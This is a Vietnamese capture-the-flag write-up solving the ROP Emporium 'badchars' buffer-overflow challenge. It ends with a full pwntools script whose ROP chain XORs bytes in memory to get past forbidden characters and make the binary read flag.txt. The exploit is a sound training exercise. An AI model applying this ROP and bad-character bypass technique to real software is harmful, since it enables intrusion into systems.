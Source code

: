 # ROP_Emporium - badchars

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
badchars: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6c79e265b17cf6845beca7e17d6d8ac2ecb27556, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:

![pwnme2.png](images/pwnme2.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

cũng như usefulGadgets()

![usefulGadgets.png](images/usefulGadgets.png)

# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số `nonexistent` thành `flag.txt` để hàm này đọc flag file và in ra

--> ROP_chain

# 3. Khai thác

Ta sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây

![usefulFunction2.png](images/usefulFunction2.png)

Đối với usefulGadgets() có `xor    BYTE PTR [r15],r14b` dùng để thực hiện việc XOR một byte được chỉ định trong thanh ghi R14 với byte tại địa chỉ được lưu trữ trong thanh ghi R15 và được lưu trữ tại địa chỉ được chỉ định trong thanh ghi R15

![usefulGadgets2.png](images/usefulGadgets2.png)

Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:

![vmmap.png](images/vmmap.png)

ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:

![strstr.png](images/strstr.png)

ở đây mình sẽ lấy `0x6010f0`

# Quan trọng

Chạy thử chương trình:

![run.png](images/run.png)

Như tên chương trình `badchars`, khi ta nhập vào nhưng ký tự `'x', 'g', 'a', '.'` thì khi lưu vào thanh ghi thì ký tự đó bị biến đổi

Sử dụng gdb nhập vào input với `b"a"*0x50` ta được:

![gdb1.png](images/gdb1.png)

Chính bởi việc các ký tự `'x', 'g', 'a', '.'` bị cấm nên ta sẽ chỉ ghi được `fl___t_t` của `flag.txt` muốn đọc nên ta sẽ tận dụng `xor    BYTE PTR [r15],r14b` của usefulGadgets() để biến đổi byte và lưu vào địa chỉ của r15.

ROP_chain ta sẽ làm như sau:

- pop_r12_r13_r14_r15 
- đưa giá trị "fl,,,t,t" vào r12 do các ký tự **'x', 'g', 'a', '.'** bị cấm
- đưa địa chỉ lưu chuỗi vào r13
- đưa byte cần xor với [r15] vào r14
- đưa địa chỉ chứa byte cần xor với r14 vào r15 và sau khi xor lưu lại [r15]
- mov_r12_r13 dùng để đẩy giá trị r12 vào [r13]
- dùng hàm usefulGadgets() để sử dụng phép **xor    BYTE PTR [r15],r14b**
- lặp lại 3 lần phép **xor    BYTE PTR [r15],r14b** để sửa giá trị chuỗi từ "fl,,,t,t" thành "flag.txt"
- pop thanh ghi rdi
- đưa địa chỉ chứa chuỗi "flag.txt" vào rdi
- gọi đến hàm **printf_file** sau khi đã setup xong rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./badchars', checksec=False)

p = process("./badchars")

#gdb.attach(p, gdbscript='''
#b*pwnme+268
#c
#x/s 0x6010f0
#''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
mov_r12_r13 = 0x0000000000400634
pop_r12_r13_r14_r15 = 0x000000000040069c
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x6010f0                #địa chỉ lưu chuỗi "flag.txt"
   
payload1 = flat(
	cyclic(0x28),
	pop_r12_r13_r14_r15,
	b"fl,,,t,t",
	null_addr,
	p64(2),                         #2 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "." có giá trị 0x2e và lưu vào null_addr+4        "fl,,.t,t"
	null_addr+4,
	mov_r12_r13,
	gadget,
	
	pop_r14_r15,
	p64(75),                        #75 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "g" có giá trị 0x67 và lưu vào null_addr+3       "fl,g.t,t"
	null_addr+3,
	gadget,
	
	pop_r14_r15,
	p64(77),                        #77 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "a" có giá trị 0x61 và lưu vào null_addr+2       "flag.t,t"
	null_addr+2,
	gadget,
	
	pop_r14_r15,
	p64(84),                        #84 xor với byte ',' có giá trị là 0x2c thì kết quả sẽ là byte "x" có giá trị 0x78 và lưu vào null_addr+2       "flag.txt"
	null_addr+6,
	gadget,
	
	pop_rdi_ret,
	null_addr,
	vuln+9
	
    )

p.sendlineafter(b">",payload1)
p.interactive()


```
# 4. Lấy flag

![flag.png](images/flag.png)


